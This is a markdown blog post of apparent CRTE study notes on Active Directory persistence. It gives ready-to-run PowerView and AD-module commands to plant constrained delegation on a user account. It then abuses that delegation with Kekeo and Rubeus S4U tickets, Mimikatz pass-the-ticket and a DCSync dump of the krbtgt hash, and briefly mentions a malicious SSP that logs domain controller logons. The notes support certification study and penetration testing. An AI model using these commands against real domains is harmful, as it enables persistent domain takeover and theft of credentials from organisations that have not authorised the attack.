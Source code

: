 ```yaml
---
title: "3 - AD Persistence"
classes: single
header:  
  teaser: /assets/images/posts/crte/crte-teaser4.jpg
  overlay_image: /assets/images/main/header8.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Constrained Deleg and Malicious SSP"
description: "Constrained Deleg and Malicious SSP"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows
  - peristence 
toc: true
---
```




# AD Persistence

Some content are similar to CRTP:

[AD Persistence - CRTP](https://johnermac.github.io/notes/crtp/domdom/)


## msDS-AllowedToDelegateTo (Constrained Delegation)

Note that the **msDS-AllowedToDelegateTo** is the user account flag which controls the services to which a user account has access to.

> This means, with enough privileges, it is possible to access any service from a user

- Enough privileges? – SeEnableDelegationPrivilege on the DC and full rights on the target user - default for Domain Admins and Enterprise Admins.
- That is, we can force set **Trusted to Authenticate for Delegation** and **ms-DS-AllowedToDelegateTo** on a user (or create a new user - which is more noisy) and abuse it later.

**Using PowerView**:
```powershell
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/dc.domain.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
Get-DomainUser –TrustedToAuth
```

**Using AD module**:
```powershell
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/dc.domain.local')} -Verbose
Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### Abuse using Kekeo
```powershell
kekeo# tgt::ask /user:devuser /domain:domain.local /password:Password@123!
kekeo# tgs::s4u /tgt:TGT_devuser@domain.local_krbtgt~us.techcorp.local@domain.local.kirbi /user:Administrator@domain.local /service:ldap/domain.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@domain.local_ldap~dc.domain.local@domain.local.kirbi"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

### Abuse using Rubeus:
```powershell
Rubeus.exe hash /password:Password@123! /user:devuser /domain:domain.local
Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/dc.domain.local /domain:domain.local /ptt
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

## Malicious SSP

- All local logons on the DC are logged to **C:\Windows\system32\kiwissp.log**

![Alt text](/assets/images/posts/crte/2.png){: .align-center}
